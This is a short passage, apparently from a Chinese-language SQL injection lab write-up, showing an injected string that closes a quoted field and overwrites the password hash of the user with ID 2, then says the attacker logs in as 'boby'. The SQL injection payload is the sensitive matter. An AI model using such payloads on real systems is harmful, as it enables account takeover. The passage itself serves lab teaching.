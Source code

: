 注入代码：

```sql
110',Password='522B276A356BDF39013DFABEA2CD43E141ECC9E8' WHERE ID=2;#
```

![3-8](../image/3-8.png)

此时拿 boby 拿原密码登录账号：

![3-9](../image/3-9.png)
